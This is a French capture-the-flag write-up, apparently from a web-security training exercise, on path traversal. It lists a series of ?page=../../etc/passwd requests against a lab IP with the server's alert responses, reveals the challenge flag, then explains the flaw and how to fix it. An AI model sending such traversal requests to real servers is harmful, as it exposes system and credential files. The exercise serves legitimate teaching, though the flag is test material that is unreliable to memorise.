 ### Comment obtenir le flag
En allant sur n'importe quel page du site contenant une requete GET dans l'url (comme http://[ip]/?page=survey), on essaye de changer la valeur du parametre page.
On obtient alors un script alert. Cela nous donne l'idee d'utiliser une attaques de répertoires automatise avec un script python. (inspect_recursion.py)
Ce script va simplement essayer d'acceder au url du fichier /etc/passwd vu precedemment dans le dossier whatever, en rajoutant a chaque recursion un niveau de moins dans l'arborescence du serveur. Dans sa version finale, le script s'arrete quand l'alerte donne des indications sur le flag.
python3 inspect_recursion.py [ip]

http://192.168.43.129/?page=etc/passwd
alert('Wtf ?');

http://192.168.43.129/?page=../etc/passwd
alert('Wtf ?');

http://192.168.43.129/?page=../../etc/passwd
alert('Wrong..');

http://192.168.43.129/?page=../../../etc/passwd
alert('Nope..');

http://192.168.43.129/?page=../../../../etc/passwd
alert('Almost.');

http://192.168.43.129/?page=../../../../../etc/passwd
alert('Still nope..');

http://192.168.43.129/?page=../../../../../../etc/passwd
alert('Nope..');

http://192.168.43.129/?page=../../../../../../../etc/passwd
alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');

Nous avons donc le flag.

### Expliquer la faille
La traversée de répertoire ou Path Traversal est une attaque HTTP qui permet aux attaquants d'accéder à des répertoires restreints et d'exécuter des commandes en dehors du répertoire racine du serveur web.

### Comment la corriger
Premierement, verifier si la version du serveur web et des logiciels sont a jours, et que les patches ont ete appliques.
Ensuite, il est preferable de verifier les entrees utilisateur, idealement de supprimer tout ce qui ne fait pas parti des donnees correcte pour naviguer sur le site.
